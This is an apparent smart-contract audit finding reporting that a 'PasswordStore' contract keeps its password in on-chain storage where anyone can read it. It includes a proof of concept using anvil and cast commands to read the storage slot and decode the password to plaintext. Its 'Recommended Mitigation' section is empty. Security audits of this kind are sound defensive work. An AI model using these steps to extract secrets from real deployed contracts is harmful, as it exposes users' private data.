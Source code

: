 ### [S-#] Storing the password on-chain makes it visible to anyone, and no longer private

**Description:** All data stored on-chain is visible to anyone, and can be read directly from the blockchain. The `PasswordStore::s_password` variable is intended to be a private variable and should only be accessed through `PasswordStore::getPassword()` function, which is intended to be only called by the owner of the contract.

We show one such method of reading any data off chain below.

**Impact:** Anyone can read the private password, severely breaking the functionality of the protocol.

### Proof of Concept:

The below test case shows how anyone can read the password directly from the blockchain.

1. Create a locally running chain
    ```bash
    make anvil
    ```

2. Deploy the contract to the chain
    ```bash
    make deploy
    ```

3. Run the storage tool
    ```bash
    cast storage <contract_address>
    ```
    or
    ```bash
    cast storage <contract_address> <storage_slot>
    ```
    You should get an output similar to the below:
    ```bash
    0x6d7950617373776f726400000000000000000000000000000000000000000014
    ```

4. Copy the output and run the below command to convert it to readable text
    ```bash
    cast parse-bytes32-string <output>
    ```
        You should get the password in plain text:
    ```bash
    myPassword
    ```

**Recommended Mitigation:** 

